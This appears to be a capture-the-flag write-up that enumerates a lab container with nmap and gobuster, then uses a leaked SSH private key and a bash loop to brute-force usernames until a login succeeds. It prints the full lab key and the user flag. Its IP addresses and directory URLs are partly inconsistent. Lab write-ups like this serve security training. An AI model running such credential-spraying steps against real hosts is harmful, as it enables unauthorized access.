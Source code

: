 
#### First of the using ping to see the connection.

**command:** 
```bash
ping 172.18.0.2
```
![[Pasted image 20250123205938.png]]
___

## Using nmap to check all the open ports"

**command:** 
```bash
nmap 172.18.0.2
```
![[Pasted image 20250123210158.png]]
___

## Checking website: 

While checking website, I found **robots.txt** with a hint.
![[Pasted image 20250123210421.png]]

## Using go buster to find directories:

Command:
```bash
gobuster dir -u http://192.168.1.116:8080/ -w ~/Documents/SecLists/Discovery/Web-Content/big.txt  -t 200
```

Output:
![[Pasted image 20250123210625.png]]
___

## Checking all discover directories:

### /far : nothing was there.
### /close: found ssh.txt, something like private id_rsa. (http://192.168.1.116:8080/near/username.py)
### /near: found username.py, A python program to print usernames.(http://192.168.1.116:8080/close/ssh.txt)

Might be there could be usernames needed for ssh. Let's try bruteforcing ssh with id_rsa and usernames .
___

## Let's prepare id_rsa and username:
### For id_rsa, copy all the content and save it somewhere in your linux.
```bash
echo "-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----" > id_rsa
```

Set permission like this:
```bash
chmod 600 id_rsa
```
___

## Lets make wordlist for username: 

```bash
echo -e "arjun.pandey\nsita.sharma\nbinod.khadka\nrita.dahal\nbishnu.thapa\nram_jhakri\npratik.adhikari\nmira.gurung\nkrishna.kc\nanjali.magar\nrajesh.tamang" > username.txt

```
___
## You can bruteforce manually or by using tool like :

### Lets try medusa tool:
hydra can't be useful in this because, hydra directly don't work with id_rsa

**script:**
```bash
#!/bin/bash

target_ip="172.18.0.1"
private_key="id_rsa"
usernames_file="username.txt"
ssh_port=2222

# Loop through each username
while read -r username; do
  ssh -i "$private_key" "$username"@"$target_ip" -p "$ssh_port" -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -o PasswordAuthentication=no exit
  if [ $? -eq 0 ]; then
    echo "Successfully connected with username: $username"
  else
    echo "Failed to connect with username: $username"
  fi
done < "$usernames_file"
```
___

## By brute forcing:
![[Pasted image 20250123213909.png]]

**ram_jhakri** was the real username.

## Connecting to ssh using id_rsa:
**command:**
```bash
ssh -i id_rsa ram_jhakri@172.18.0.2
```

![[Pasted image 20250123214008.png]]
___
### try to find some thing:
![[Pasted image 20250123220450.png]]

I got, 
.hint_for_real_flag: there are two flag one is user.txt and another is root.txt
.user.txt : CTF{L1nux_D0ck3r_1s_Aw3s0me}
___

